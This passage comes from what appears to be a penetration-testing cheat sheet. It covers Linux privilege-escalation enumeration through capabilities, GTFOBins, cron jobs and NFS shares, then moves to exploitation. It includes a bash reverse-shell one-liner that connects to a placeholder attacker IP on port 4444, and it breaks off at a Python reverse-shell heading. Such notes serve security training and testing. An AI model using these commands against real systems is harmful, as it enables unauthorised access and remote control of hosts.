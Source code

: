 #### **Finding Capabilities**

```bash
getcap -r / 2>/dev/null  
```

#### **Using GTFOBins for Exploitation**

💡 [GTFOBins: Exploitable SUID binaries](https://gtfobins.github.io/)

* * *

### Exploiting Cron Jobs

#### **Finding Scheduled Cron Jobs**

```bash
cat /etc/crontab  
crontab -l  
ls -la /etc/cron.*  
```

#### **Live Monitoring Cron Jobs (pspy)**

```bash
./pspy64  
```

* * *

### Exploiting NFS Shares

#### **Finding Available Shares**

```bash
showmount -e <target IP>  
cat /etc/exports  
```

#### **Mounting a Share**

```bash
mount -o rw <targetIP>:<share-location> <local-mount-directory>  
```

## 7\. Exploitation Techniques

### Reverse Shells

#### **Bash Reverse Shell**

```bash
bash -i >& /dev/tcp/<attacker-IP>/4444 0>&1  
```

#### **Python Reverse Shell**
